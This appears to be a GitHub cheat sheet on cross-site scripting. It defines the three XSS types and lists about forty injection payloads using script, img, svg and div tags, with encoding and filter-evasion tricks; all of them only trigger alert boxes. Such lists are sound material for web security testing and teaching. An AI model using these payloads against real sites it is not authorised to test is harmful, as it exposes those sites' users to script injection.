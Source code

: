# About

## Types of XSS attacks
- Reflected: Where the malicious script comes from the current HTTP request.
- Stored: Where the malicious script comes from the website's database.
- DOM-BASED: Where the vulnerability exists in client-side code rather than server-side code.

## XSS in HTML/Applications
### Common Payloads
```javascript
// Basic payload
<script>alert('XSS')</script>
print("<script>alert('XSS')</script>")
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

# OWASP TOP 10 A7:1017
[Link](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS))
